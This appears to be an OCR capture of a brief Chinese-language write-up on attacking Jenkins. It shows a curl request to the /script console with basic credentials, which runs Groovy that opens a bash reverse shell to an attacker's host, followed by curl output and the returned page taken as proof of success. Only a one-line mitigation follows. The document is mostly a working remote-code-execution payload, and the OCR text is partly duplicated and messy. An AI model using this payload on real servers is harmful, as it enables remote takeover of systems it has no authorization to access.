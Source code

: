 ```
>   --data-urlencode "script=def proc = ['bash','-c','bash -i >& /dev/tcp/$ATTACK_IP/$ATTACK_PORT 0>&1'].execute()" \
> 
  --header "Content-Type: application/x-www-form-urlencoded"

  --header "Content-Type: application/x-www-form-urlencoded"
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed

  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0


  
  <!DOCTYPE html><html><head resURL="/static/03cce89a" data-rooturl="" data-resurl="/static/03cce89a">
```

```
curl -X POST "$JENKINS_URL/script" \
  --user "$USERNAME:$PASSWORD" \
  --data-urlencode "script=def proc = ['bash','-c','bash -i >& /dev/tcp/$ATTACK_IP/$ATTACK_PORT 0>&1'].execute()" \
  --header "Content-Type: application/x-www-form-urlencoded"

```

这段请求：
- 使用的是 Jenkins 的 脚本执行接口 /script
- 使用的是 基础认证（admin:admin）
- 执行的 Groovy 脚本中使用 .execute() 来运行 Bash 命令反弹 Shell
- 攻击目标为 $ATTACK_IP:$ATTACK_PORT，即你攻击者主机监听的反弹 shell 端口。

攻击效果判断：
```
<!DOCTYPE html><html><head ...>
<title>Jenkins</title>
...
<a href="/user/admin" class="model-link inside inverse"><b>admin</b></a>

```
说明：
- 请求成功返回了 Jenkins 页面，并且显示已登录用户为 admin
- 这意味着 认证成功 + 命令执行接口可达


### 一些缓解措施
- 使用jenkins web服务端界面对用户权限进行一些设置